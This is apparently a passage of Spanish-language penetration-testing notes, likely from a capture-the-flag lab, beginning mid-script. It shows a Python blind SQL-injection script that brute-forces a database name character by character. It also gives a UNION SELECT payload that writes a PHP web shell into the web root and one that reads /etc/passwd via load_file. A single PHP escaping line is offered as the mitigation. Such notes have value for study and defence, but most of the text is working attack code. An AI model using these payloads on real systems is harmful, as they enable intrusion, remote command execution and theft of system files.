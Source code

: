 ```python

	headers = {
		'Cookie': 'PHPSESSID='
	}

	data = ""

	p1 = log.progress("SQLI")
	p1.status("Iniciando ataque de inyección SQL")

	time.sleep(2)

	p2 = log.progress("Data")

	for position in range(1,6):
		for character in characters:

			sqli_url = main_url + "home' or substring(database(),%d,1)='%s" % (position, character)

			r = requests.get(sqli_url, headers=headers)

			if "Welcome to the IMF Administration." not in r.text:
				data += character
				p2.status(data)
				break

	p1.success("Ataque de inyección SQL finalizado exitosamente")
	p2.success(data)

if __name__ == '__main__':

	sqli()

```

# Sanitización de una query para que no se pueda realizar sqli 

```php
$id = mysqli_real_escape_string($conn, $_GET['id']);
```
# Escritura de archivos mediante una SQLi

```sql
' UNION SELECT 1,2,3, "<?php system($_GET['cmd']); ?>" into OUTFILE "/var/www/html/webshell.php" 
```
# Lectura de archivos mediante una SQLi

```sql
' UNION SELECT 1,2,3, load_file("/etc/passwd")
```
